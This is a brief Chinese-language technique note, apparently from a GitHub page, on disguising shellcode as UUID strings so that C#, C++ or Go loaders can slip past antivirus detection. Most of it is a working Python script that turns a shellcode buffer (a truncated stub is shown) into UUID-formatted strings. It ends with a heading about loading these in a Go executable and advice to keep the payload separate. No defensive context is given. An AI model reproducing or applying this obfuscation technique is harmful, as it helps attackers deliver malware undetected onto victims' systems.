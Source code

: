 通用唯一识别码（UUID），是用于计算机体系中以识别信息数目的一个128位标识符，根据标准方法生成，不依赖中央机构的注册和分配，UUID具有唯一性。演示加载语言：C++、C#、 Python2(3不行)、 Go。



## **shellcode转uuid字符串数组**
生成专门用于c#/c++/go语言的shellcode转uuid的python代码。
PS：64位shellcode就python.exe需要64位，go.exe也要64位的。

生成专门用于go语言的shellcode转uuid的python代码：
```
#coding=utf-8
import uuid

#Input your shellcode like:\xfc\x48\x83\xe4\xf0\xe8\xxx
buf = b"""\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\...\x86\xa0"""
import uuid

def convertToUUID(shellcode):
    # If shellcode is not in multiples of 16, then add some nullbytes at the end
    if len(shellcode) % 16 != 0:
        print("[-] Shellcode's length not multiplies of 16 bytes")
        print("[-] Adding nullbytes at the end of shellcode, this might break your shellcode.")
        print("\n[*] Modified shellcode length: ", len(shellcode) + (16 - (len(shellcode) % 16)))

        addNullbyte = b"\x00" * (16 - (len(shellcode) % 16))
        shellcode += addNullbyte

    uuids = []
    for i in range(0, len(shellcode), 16):
        uuidString = str(uuid.UUID(bytes_le=shellcode[i:i + 16]))
        uuids.append(uuidString.replace("'", "\""))
    return uuids

u = convertToUUID(buf)
print(str(u).replace("'", "\""))
```

^
## **加载器加载uuid**
go编译exe
为了更好，也可以使用分离。
